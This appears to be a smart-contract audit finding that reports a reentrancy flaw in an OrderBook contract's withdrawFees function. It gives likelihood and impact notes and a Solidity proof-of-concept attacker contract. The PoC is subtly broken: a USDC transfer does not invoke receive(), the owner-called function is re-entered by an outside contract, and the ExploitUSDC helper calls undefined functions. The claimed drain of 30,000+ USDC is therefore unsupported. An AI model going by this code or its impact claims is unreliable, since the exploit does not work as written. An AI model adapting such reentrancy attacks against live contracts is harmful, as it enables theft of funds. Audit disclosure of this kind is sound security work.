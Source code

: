 ### Risk

Likelihood:

Owner controls the recipient address (_to parameter)
If owner uses a contract address as recipient (multisig, treasury contract, etc.)
Malicious or compromised recipient contract could exploit the reentrancy
Higher likelihood than other CEI violations since owner might legitimately use contract recipients

Impact:

Complete drainage of all accumulated protocol fees
Malicious recipient can re-enter before totalFees = 0 executes
Each reentrant call withdraws the full totalFees amount again
Could result in total loss of protocol revenue

### Proof of Concept

```solidity
// Malicious recipient contract that exploits fee withdrawal
contract MaliciousFeeRecipient {
    OrderBook orderBook;
    uint256 attackCount;
    
    constructor(address _orderBook) {
        orderBook = OrderBook(_orderBook);
    }
    
    // This function is called when USDC is transferred to this contract
    function onTokenReceived() external {
        if (attackCount < 3) { // Limit to prevent gas exhaustion
            attackCount++;
            // Re-enter withdrawFees before totalFees is reset
            orderBook.withdrawFees(address(this));
        }
    }
    
    // If using a malicious ERC20 implementation, could trigger in transfer
    receive() external payable {
        onTokenReceived();
    }
}

// Attack scenario:
// 1. Protocol accumulates 10,000 USDC in fees (totalFees = 10,000)
// 2. Owner calls withdrawFees(maliciousContract)
// 3. During safeTransfer, malicious contract's receive/callback is triggered
// 4. Malicious contract re-enters withdrawFees(address(this))
// 5. Since totalFees is still 10,000 (not reset yet), another 10,000 USDC is sent
// 6. This repeats multiple times before original call completes
// 7. Result: 30,000+ USDC withdrawn from only 10,000 USDC in fees

// Alternative if USDC has callbacks:
contract ExploitUSDC {
    function safeTransfer(address to, uint256 amount) external {
        // Transfer the tokens
        transfer(to, amount);
        
        // If 'to' is a malicious contract, trigger callback
        if (isContract(to)) {
            MaliciousFeeRecipient(to).onTokenReceived();
        }
    }
}
```